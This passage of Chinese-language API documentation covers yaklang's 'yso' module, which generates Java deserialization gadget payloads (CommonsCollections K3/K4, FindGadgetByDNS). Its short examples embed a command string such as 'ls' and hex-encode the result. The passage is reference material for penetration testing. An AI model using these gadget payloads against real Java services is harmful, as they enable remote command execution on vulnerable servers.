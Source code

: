 ```yaklang
command := 'ls'
javaObject, _ := yso.GetCommonsCollectionsK3JavaObject(command)
gadgetBytes, _ := yso.ToBytes(javaObject)
hexPayload := codec.EncodeToHex(gadgetBytes)
println(hexPayload)
```

## 34. `yso.GetCommonsCollectionsK4JavaObject`

## 功能描述

基于Commons Collections K4 序列化模板生成并返回一个Java对象。

## 参数说明

```
func GetCommonsCollectionsK4JavaObject(cmd: string) => => (*JavaObject, error)
```

**请求参数**

- `cmd` : 要设置在Java对象中的命令字符串。

**返回类型**

- `r1` : 成功时返回生成的Java对象。
- `r2` : 失败时返回相应错误。

## 示例代码

### 基础用法

假设的命令字符串为'ls'，生成Java对象并转换为十六进制字符串。

```yaklang
command := 'ls'
javaObject, _ := yso.GetCommonsCollectionsK4JavaObject(command)
gadgetBytes, _ := yso.ToBytes(javaObject)
hexPayload := codec.EncodeToHex(gadgetBytes)
println(hexPayload)
```

## 35. `yso.GetFindGadgetByDNSJavaObject`

## 功能描述

通过 DNSLOG 探测 CLass Name，进而探测 Gadget。使用预定义的FindGadgetByDNS序列化模板，然后在序列化对象中替换预设的URL占位符为提供的URL字符串。

## 参数说明

```
func GetFindGadgetByDNSJavaObject(url: string) => => (*JavaObject, error)
```
